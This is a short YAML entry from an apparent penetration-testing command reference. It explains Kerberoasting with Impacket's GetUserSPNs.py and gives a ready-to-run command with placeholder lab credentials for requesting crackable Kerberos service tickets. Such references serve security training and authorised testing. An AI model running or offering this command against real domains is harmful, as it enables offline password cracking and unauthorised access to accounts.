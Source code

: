 ```yaml
---
title: |
  Fetch Service Principal Names (SPNs) that are associated with user accounts
description: |
  Impacket's GetUserSPNs.py will attempt to fetch Service Principal Names that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account's password, which can then be bruteforced offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!

command: |
  python3 GetUserSPNs.py test.local/test:Welkom01! -request -dc-ip 10.10.10.1 -debug
items:
  - Password
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```


